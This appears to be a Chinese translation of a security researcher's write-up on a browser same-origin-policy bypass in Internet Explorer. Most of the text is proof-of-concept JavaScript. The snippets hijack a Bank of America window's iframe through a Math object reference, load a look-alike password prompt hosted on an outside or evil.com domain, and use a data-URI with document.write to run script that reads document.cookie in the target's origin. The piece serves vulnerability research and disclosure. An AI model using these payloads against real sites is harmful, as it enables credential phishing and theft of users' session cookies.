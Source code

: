 [**测试PoC #4**](https://www.cracking.com.ar/demos/opendata/)

如果我们想在IE浏览器中使用这项技术的话，我们还需要添加execScript(“Math”)来强制浏览器在使用Math对象之前对其进行实例化。

```
w = window.open("redir.php?URL=https://www.microsoft.com", "WIN");
w.execScript("Math"); // Forces IE to instantiate the Math object
w.Math.myself = w;
window.open("javascript:" +
               "alert('Wait until the redirection starts');" +
               "Math.myself.location = 'https://www.whatismyreferer.com'",
"WIN");
```

<br>

**设置iframe的location参数**

接下来，我们来尝试设置一个iframe的location。在这里，我们需要从其他域名的窗口来修改目标网站iframe的location参数。比如说，在bankofamerica.com打开一个新窗口，然后修改该页面iframe的location参数。

其实整个过程是非常简单的，我们只需要在上面给出的代码中添加window/iframe的引用就行了。比如说，如果我们想要修改目标页面的第一个iframe，那么我们就可以使用下面这样的代码来进行修改：

```
// Load badbits.html in the first iframe of the target window
Math.myself[0].location = 'https://evil.com/badbits.html';
```

请记住，绝大多数的网站都会使用隐藏的iframe来处理或发送请求信息，并用可见的iframe来显示广告等内容。美国银行的官方网站也使用了iframe，所以我们准备将其作为我们的攻击目标。我创建了一个简单的HTML文件，它主要负责提示用户输入自己的密码，但是它看起来跟美国银行官方网站的页面所弹出的窗口没有多大的区别。

其中的部分功能代码如下：

```
w = window.open("redir.php?URL=https://www.bankofamerica.com", "WIN");
w.Math.myself = w;
window.open("javascript:" +
               "alert('Wait until the redirection happens');" +
               "Math.myself[0].location = 'https://www.cracking.com.ar/demos/opendata/prompt.html'",
"WIN");
```

上图所示的弹出窗口来自于cracking.com.ar，所以它无法访问顶层窗口。但是，我们还是可以实现一次真正的同源策略绕过。

通过data-uri来设置iframe的location

既然我们可以修改iframe的location参数，那么我们的目的几乎已经实现了。如果我们在data-uri中设置的是javascript代码而并非真实的location地址的话，那么这段js代码几乎可以在目标网站任意页面中执行。如果我们将之前代码中的URL改成了data-uri，那么代码就会变成这样：

```
Math.myself[0].location = 'data:text/html,&lt;script&gt;alert("I am isolated from the top!")&lt;/script&gt;';
```

上述代码中的警告弹窗会在其自己单独的上下文环境中执行，但是我们可以在document加载之后使用document.write来设置它的源（origin），并与其父级页面相匹配，最终实现同源策略绕过。正如下面这段代码所示：

```
Math.myself[0].location = 'data:text/html,&lt;script&gt;' +
   'window.onload = function()`{`' +
   '   document.write("&lt;script&gt;alert(document.cookie)&lt;/script&gt;");' +
   '   document.close();' +
   '`}`&lt;/script&gt;';
```
